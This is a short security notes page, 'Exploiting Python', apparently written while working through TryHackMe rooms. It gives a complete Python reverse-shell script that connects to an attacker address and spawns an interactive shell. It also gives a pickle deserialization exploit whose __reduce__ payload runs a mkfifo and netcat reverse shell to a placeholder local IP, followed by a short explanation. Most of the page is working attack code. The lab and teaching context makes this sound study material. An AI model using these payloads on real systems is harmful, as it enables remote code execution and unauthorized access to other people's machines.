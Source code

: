 # Exploiting Python

author:: Nathan Acks  
date:: 2022-07-11

## A Simple Reverse Shell

```python
import socket
import subprocess
import os

attacker_ip = "10.0.0.1"
attacker_port = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((attacker_ip, attacker_port))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/sh", "-i"])
```

Catch it with netcat or socat.

## Python Pickles

One way to attack Python webapps is to exploit the pickle.loads() operation, which reconstructs objects from an encoded data stream. When an object is reconstructed it is actually fully initialized, which means that things like `object.__reduce__()` are run.

For example, the TryHackMe: OWASP Top 10 room has us use the following code to create a malicious base64 encoded object to feed pickle.loads() (LOCAL_IP gets replaced by your machine's IP):

```python
import pickle		
import sys		
import base64		

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc LOCAL_IP 4444 > /tmp/f'		

class rce(object):		
    def __reduce__(self):		
        import os		
        return (os.system,(command,))		

print(base64.b64encode(pickle.dumps(rce())))
```

What's getting encoded here is the `rce` class. Python will call `rce.__reduce__()` to determine how to initialize this class when pickle.loads() deserializes it, and `__reduce__()` wil return the tuple `(os.system, (command,))`, where `command` is basically our standard Metasploit reverse shell. Python then initializes the class by using os.system to call `command`, and there's our reverse shell!

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
* [pickle - Python object serialization](https://docs.python.org/3/library/pickle.html)
* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
